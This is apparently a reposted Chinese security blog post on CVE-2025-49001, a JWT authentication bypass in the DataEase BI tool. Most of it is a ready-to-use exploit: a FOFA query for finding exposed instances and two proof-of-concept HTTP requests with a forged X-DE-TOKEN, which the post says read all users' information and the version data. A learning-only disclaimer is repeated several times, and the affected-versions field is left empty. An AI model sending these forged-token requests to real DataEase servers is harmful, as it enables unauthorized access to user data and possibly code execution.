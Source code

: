 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkzNzMxODkzMw==&mid=2247485947&idx=1&sn=ba767dba115ee2c0bbfec4ae94498e0c

#  CVE-2025-49001 Dataease JWT 认证绕过导致未授权访问漏洞  
 HK安全小屋   2025-06-17 15:57  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
漏洞描述：  
  
DataEase是一款开源的商业智能和数据可视化工具。CVE-2025-49001 中，由于JWT算法实现存在缺陷，导致攻击者可以使用任何secret来伪造JWT令牌，从而绕过权限校验调用后台相关功能接口，甚至造成代码执行。  
  
影响版本：  
  
DataEase  
  
FOFA:  

```
title=&#34;DataEase&#34;
```

  
  
POC1：  

```
GET /de2api/user/info HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: application/json, text/plain, */*Connection: close
Host: xx.x.xx.xx
out_auth_platform: default
X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8
```

  
成功读取系统所有用户信息  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/A8qcyicQXeI343Bv9UHwica6iamM1Zict2M7o5dvFuNb760B0Bm6rTGGZGDGj0YfvicYatAMdsSV7FMoaP1NUDGxbBg/640?wx_fmt=jpeg&from=appmsg "")  
  
POC2:  

```
GET /de2api/license/version HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: application/json, text/plain, */*
Connection: closeHost: xx.x.xx.xx
out_auth_platform: default
X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8
```

  
成功读取版本信息  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/A8qcyicQXeI343Bv9UHwica6iamM1Zict2M7e8JiaR85eSYmmDAnuibWw60E8QiadgU37oYnE0eRCiayWyNW4T37x6jrNA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
